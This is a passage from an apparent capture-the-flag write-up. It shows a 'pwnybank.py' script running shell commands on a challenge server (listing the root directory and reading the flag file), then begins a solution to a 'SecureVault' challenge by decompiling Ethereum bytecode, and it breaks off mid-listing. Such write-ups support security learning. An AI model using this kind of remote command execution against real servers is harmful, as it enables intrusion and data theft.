 ```
# python pwnybank.py "pwd"
/app/public/tmp/oqjdp6fdo7a2j4e6jj926uf3bc
# python pwnybank.py "ls /"
app
bin
bootstrap
dev
etc
flag.9f734b1948ae016cd9d01b0f12ffc8be6af2659e87372d78e1a5751d0a74fb2f95206e076c12bfbe8b41bed106f5b79787a329621ae9a1ebb8f056f878816a74
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
# python pwnybank.py "cat /flag*"
flag{????}
```

## [In]SecureVault1 [150]

### Problem Description

One of our developers is researching new technologies and thinks that he has found the perfect solution to keep his private key, SecureVault.
Maybe he has not understood well how it works, are you able to find out his username and password and get his private key?

Flag format: flag{0xd3adb33f....}

Download: https://drive.google.com/file/d/15J9nX_onjScqGkaIyRVMHfQsX30gcx9J/view?usp=sharing

Challenge created by @belane

### Solution

After download the challenge file, and looking at the content and the extension, "bin-runtime", I realized that it was a EVM (Ethereum Virtual-Machine) bytecode.

I found a tool to convert the code into a more human readable format:
https://www.trustlook.com/services/smart.html

```
contract disassembler {

    function FUNC_60353DB9( uint256 arg0,uint256 arg1) public return (var0)
    {
        var5 = arg0;
        var6 = arg1;
        temp2 = mload(arg1);
        temp1 = mload(arg0);
        if ((temp1 == temp2)) 
        {
            var7 = 0x0;
label_000001ED:
            temp3 = mload(var5);
```